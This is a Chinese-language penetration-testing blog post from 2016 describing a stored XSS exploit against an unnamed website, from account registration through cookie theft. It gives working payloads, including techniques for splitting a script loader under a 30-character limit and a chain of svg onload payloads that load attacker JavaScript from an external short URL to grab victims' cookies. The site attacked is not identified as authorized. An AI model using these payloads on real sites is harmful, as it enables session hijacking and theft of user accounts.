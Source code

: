 ```yaml
---
draft: false
date: 2016-07-17 23:30:54
title: 一次存储型 XSS 利用实例
description: 
categories:
  - Pentest
tags:
  - xss
---
```


首先感谢凯神的指导

### 0x00 注册账号
先得到一个临时邮箱，然后注册账号
![65](/img/post/xss_example_get_temporary_email.png)

![35](/img/post/xss_example_register.png)

### 0x01 找输入输出点
![40](/img/post/xss_example_add_topic.png)

![80](/img/post/xss_example_input_output_point.png)

### 0x02 尝试构造payload
payload用如下的即可：
```
<script>alert(1)</script>
"><script>alert(1)</script><a
```
但是这个要在点击删除时payload才起作用
![40](/img/post/xss_example_payload_test.png)
```
也可用<img src=1 onerror=alert(1) />自动加载，但也要点击删除按钮才能起作用  
但是我们若想充分利用则需要远程加载自己的js
```

### 0x03 加载自己的js
* 此时的限制条件为：

```
* 30个字符
* script标签不能自己触发
```

* 只能构造类似下面的语句自己加载脚本：

```
a=document.createElement('script');
a.src="www.xxx.com";
document.head.appendChild(a);
```

* 可以用如下方法分割，多次添加：

```
a=document.createE/*
*/lement('script');/*
*/a.src="www.xxx.com";/*
*/document.head.app/*
*/endChild(a);

但此处不可行，考虑直接用JQuery等的函数getScript(URL)直接加载url，然而此处依然不行
```

* 查找
![50](/img/post/xss_example_find_loadjs.png)

* 构造payload
![45](/img/post/xss_example_short_url.png)

```
使用如下payload：
<svg/onload="b='http://t.i'">
<svg/onload="b+='m/16ap6'">
<svg/onload="$loadJs(b)">
```

### 0x04 得到Cookie
![70](/img/post/xss_example_get_cookie.png)
